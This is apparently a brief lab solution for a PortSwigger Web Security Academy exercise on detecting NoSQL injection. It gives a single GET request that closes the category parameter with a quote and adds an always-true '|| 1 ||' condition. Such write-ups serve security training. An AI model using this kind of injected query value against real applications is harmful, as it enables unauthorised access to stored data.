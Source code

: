 # Lab

https://portswigger.net/web-security/nosql-injection/lab-nosql-injection-detection

## Solution

Payload : `GET /filter?category=Clothing%2c+shoes+and+accessories'+||+1+||+'`